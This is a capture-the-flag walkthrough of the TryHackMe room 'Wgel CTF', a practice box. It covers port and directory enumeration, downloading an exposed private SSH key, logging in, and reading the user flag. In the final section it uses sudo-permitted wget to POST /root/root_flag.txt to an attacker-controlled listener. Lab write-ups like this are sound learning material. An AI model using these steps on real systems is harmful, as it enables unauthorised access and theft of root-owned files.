

# [Wgel CTF - Can you exfiltrate the root flag?](https://tryhackme.com/r/room/wgelctf)


## Enumeration

### Nmap
```
kali@kali:~$ nmap -sC -sV -Pn $TARGETIP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 05:51 EDT
Nmap scan report for <TARGETIP>
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.29 seconds
                                                                                                                                       
kali@kali:~$ 
```

- ssh port
- http port

### Gobuster
1. DNS
```
kali@kali:~/CTFs/wgelctf$ gobuster dns -d $TARGETIP -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
- no results

2. DIR
```
kali@kali:~/CTFs/wgelctf$ gobuster dir -u $TARGETIP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
```
- */sitemap*              (Status: 301) [Size: 314] [--> http://<TARGETIP>/sitemap/]

### Inspecting the website

- landing page is the default apache2 ubuntu page 
- */sitemap* - Unapp, seems to be a kind of CMS

### Enumerating */sitemap* with `gobuster`
```
kali@kali:~/CTFs/wgelctf$ gobuster dir -u $TARGETIP/sitemap -w /usr/share/seclists/Discovery/Web-Content/dirsearch.txt -o gobuster_output --no-error
```
Results:
```
kali@kali:~/CTFs/wgelctf$ cat gobuster_output                                                                                          
/.                    (Status: 200) [Size: 21080]                                                                                      
/.htaccess            (Status: 403) [Size: 277]                                                                                        
/.htaccess-dev        (Status: 403) [Size: 277]                                                                                        
/.htaccess-local      (Status: 403) [Size: 277]                                                                                        
/.htaccess.inc        (Status: 403) [Size: 277]                                                                                        
/.htaccess.bak1       (Status: 403) [Size: 277]                                                                                        
/.htaccess-marco      (Status: 403) [Size: 277]                                                                                        
/.htaccess.old        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htaccess.orig       (Status: 403) [Size: 277]
/.htaccess.sample     (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htaccess.save       (Status: 403) [Size: 277]
/.htaccess/           (Status: 403) [Size: 277]
/.htaccessBAK         (Status: 403) [Size: 277]
/.htaccessOLD         (Status: 403) [Size: 277]
/.htaccessOLD2        (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswd-old        (Status: 403) [Size: 277] 
/.htpasswd.bak        (Status: 403) [Size: 277]  
/.htpasswd/           (Status: 403) [Size: 277]  
/.htpasswd.inc        (Status: 403) [Size: 277]                                                                                                  
/.httr-oauth          (Status: 403) [Size: 277]  
/.ssh/id_rsa          (Status: 200) [Size: 1675]                                                                                                             
/about.html           (Status: 200) [Size: 12232]                                                                                                
/contact.html         (Status: 200) [Size: 10346]                       
/css                  (Status: 301) [Size: 318] [--> http://<TARGETIP>/sitemap/css/]                                                                       
/css/                 (Status: 200) [Size: 2841]                                                                                                 
/fonts/               (Status: 200) [Size: 1159]                        
/images               (Status: 301) [Size: 321] [--> http://<TARGETIP>/sitemap/images/]                                                                    
/images/              (Status: 200) [Size: 8657]                              
/index.html           (Status: 200) [Size: 21080]                                             
/js                   (Status: 301) [Size: 317] [--> http://<TARGETIP>/sitemap/js/]                                                                                                        
/js/                  (Status: 200) [Size: 3817]                                              

kali@kali:~/CTFs/wgelctf$ 
```
- /.ssh/id_rsa -> leaks sensitive information, provides us a private SSH key



## Establishing an SSH connection

1. Getting the key
```
kali@kali:~/CTFs/wgelctf/ssh_access$ curl $TARGETIP/sitemap/.ssh/id_rsa -o id_rsa

kali@kali:~/CTFs/wgelctf/ssh_access$ chmod 600 id_rsa
```
2. Collecting necessary information
- SSH private key authorization still requires a username
-> the source-code of http://<TARGETIP> contains: `<!-- Jessie don't forget to udate the webiste -->` -> jessie seems to be a username

### Try authentication
```
kali@kali:~/CTFs/wgelctf/ssh_access$ ssh jessie@$TARGETIP -i id_rsa
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

Last login: Mon May 20 11:31:15 2024 from <ATTACKERIP>
jessie@CorpOne:~$ 
```

## User-flag
```
jessie@CorpOne:~$ ls -lisa Documents/
total 12
183844 4 drwxr-xr-x  2 jessie jessie 4096 oct 26  2019 .
186292 4 drwxr-xr-x 17 jessie jessie 4096 oct 26  2019 ..
141884 4 -rw-rw-r--  1 jessie jessie   33 oct 26  2019 user_flag.txt
jessie@CorpOne:~$ cat Documents/user_flag.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
jessie@CorpOne:~$ 
```

## Root-flag
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
jessie@CorpOne:~$ 
```

- wget can be used as root -> we can transfer the flag file to our attacker-machine

SSH-shell:
```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt <ATTACKERIP>
--2024-05-20 11:51:41--  http://<ATTACKERIP>/
Connecting to <ATTACKERIP>:80... connected.
HTTP request sent, awaiting response... 
```

Attacker-machine:
```
kali@kali:~/CTFs/wgelctf$ nc -lvnp 80
listening on [any] 80 ...
connect to [<ATTACKERIP>] from (UNKNOWN) [<TARGETIP>] 51230
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: <ATTACKERIP>
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
